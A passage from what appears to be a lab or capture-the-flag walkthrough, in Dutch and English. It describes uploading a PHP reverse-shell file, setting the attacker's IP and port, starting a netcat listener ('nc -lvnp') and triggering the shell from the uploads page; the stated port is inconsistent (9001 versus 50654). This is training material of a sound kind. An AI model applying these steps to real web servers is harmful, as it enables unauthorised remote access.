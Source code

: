 #### Antwoord:
```
O arquivo foi upado com sucesso!
```

### Establish the reverse shell
Zorg dat het bestand `shell.php5` is aangepast dat `127.0.0.1` is aangepast naar het ip-adres van je aanvallende pc en de poort naar de poort waarop je een listener gaat activeren.

- Open a terminal and launch netcat on port 9001
>[!Warning]
> Gebruik de poort die je hebt ingesteld in het bestand. In dit geval is er `50654` gebruikt.

```bash
nc -lvnp 50654
```
- Navigate to the uploads page on the website and execute the script
![alt text](https://github.com/SvenvG0/SvenvG0/blob/main/images/activate_script.png?raw=true)

#### Resultaat:
![alt text](https://github.com/SvenvG0/SvenvG0/blob/main/images/reverse_shell.png?raw=true)

>[!Tip]
> Nu we een reverse shell hebben kunnen we de eerste stap van Task 3 uitvoeren.
